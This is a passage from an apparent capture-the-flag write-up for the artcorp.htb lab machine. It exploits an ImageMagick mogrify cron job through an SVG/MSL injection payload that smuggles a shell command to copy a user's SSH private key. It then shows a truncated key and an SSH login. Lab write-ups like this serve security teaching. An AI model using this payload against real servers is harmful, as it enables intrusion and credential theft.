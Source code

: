 ```
cat /usr/local/bin/convert_images.sh 
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```

Mogrify is being executed to convert images. It is possible to read files using mogrify but only for certain versions.

`mogrify --version`
```
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```


According to this [blog post](https://insert-script.blogspot.com/2020/11/imagemagick-shell-injection-via-pdf.html), we can exploit mogrify here.

![](https://i.imgur.com/Dj7yG3F.png)

tl;dr of the post, we can use an svg file to get file read.

With file read, grab the ssh key of the user by putting this file into the folder where covert_images is being executed.
Contents of the SVG file.

```
<image authenticate='ff" `echo $(cat /home/thomas/.ssh/id_rsa)> /dev/shm/ssh`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">       
  <image xlink:href="msl:ssh.svg" height="100" width="100"/>
  </svg>
</image>
```
RSA key for the user Thomas
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
[...]
bhFErAeoncE3vJAAAACXJvb3RAbWV0YQE=
-----END OPENSSH PRIVATE KEY-----
```
Log in with the ssh key

`ssh -i id_rsa thomas@artcorp.htb`
```                                        
Linux meta 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 21 12:13:31 2022 from 10.10.14.102
thomas@meta:~$ 
```
